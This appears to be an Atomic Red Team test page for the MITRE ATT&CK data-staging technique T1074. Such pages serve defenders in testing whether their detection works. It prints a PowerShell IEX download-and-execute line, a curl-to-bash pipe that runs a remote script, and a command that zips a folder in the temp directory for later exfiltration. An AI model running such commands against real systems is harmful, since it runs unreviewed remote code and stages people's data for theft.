 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/src/Discovery.bat') > pi.log
```






<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS



#### Attack Commands: Run with `bash`! 


```bash
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/src/Discovery.sh | bash -s > /tmp/discovery.log
```






<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration.

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path $PathToAtomicsFolder\T1074\bin\Folder_to_zip -DestinationPath $env:TEMP\Folder_to_zip.zip
```

#### Cleanup Commands:
```powershell
Remove-Item -Path $env:TEMP\Folder_to_zip.zip -ErrorAction Ignore
```





<br/>
